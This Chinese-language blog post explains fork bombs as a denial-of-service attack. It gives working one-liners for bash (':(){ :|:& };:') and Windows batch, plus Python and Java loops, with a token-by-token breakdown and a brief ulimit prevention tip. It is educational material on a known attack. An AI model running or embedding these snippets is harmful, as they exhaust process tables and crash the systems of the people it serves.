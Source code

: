 ```yaml
---
title: Fork Bomb
date: 2017-02-04 10:36:52
comments: true
tags: 
- ForkBomb
categories: 系统安全
password:
copyright: true
---
```

　　Fork炸弹（fork bomb）在计算机领域中是一种利用系统调用fork（或其他等效的方式）进行的拒绝服务攻击。fork炸弹以极快的速度创建大量进程（进程数呈以2为底数的指数增长趋势），并以此消耗系统分配予进程的可用空间使进程表饱和，而系统在进程表饱和后就无法运行新程序，除非进程表中的某一进程终止，它可以利用在windows/linux等系统。

#### linux系统

##### Code
```bash
:(){ :|:& };:
```

##### 注解
:()　# 定义函数,函数名为":",即每当输入":"时就会自动调用{}内代码 
{　　# ":"函數起始字元     
:　　# 用递归方式调用":"函数本身     
|　　# 並用管線(pipe)將其輸出引至...（因为有一个管線操作字元，因此會生成一個新的進程）     
:　　# 另一次递归调用的":"函数 # 综上,":|:"表示的即是每次調用函数":"的時候就會產生兩份拷貝     
&　　# 調用間脱鉤,以使最初的":"函数被關閉後為其所調用的兩個":"函數還能繼續執行 
}　　# ":"函數終止字元 
;　　# ":"函数定义结束后将要进行的操作... 
:　　# 调用":"函数,"引爆"fork炸弹



#### Windows系统(创建一个.bat，写入以下命令运行即可)

##### Code
```bash
%0|%0|%0
```
##### 注释
%0就是输出自己本身,也就是.bat，在cmd中即表示运行.bat
|%0就是打开自身后的程序再打开.bat
3的指数倍

##### 预防
一个防止其严重影响系统的方法就是限定一个用户能够创建的进程数的上限，在Linux系统上，可以通过ulimit这个指令达到相应的效果。


#### 编程语言应用

Using Python:

```bash
import os
while 1:
    os.fork()
```

Using Java:

```bash
public class ForkBomb
{
  public static void main(String[] args)
  {
    while(true)
    {
      Runtime.getRuntime().exec(new String[]{"javaw", "-cp", System.getProperty("java.class.path"), "ForkBomb"});
    }
  }
}
```

官方参考链接：[https://en.wikipedia.org/wiki/Fork_bomb](https://en.wikipedia.org/wiki/Fork_bomb)

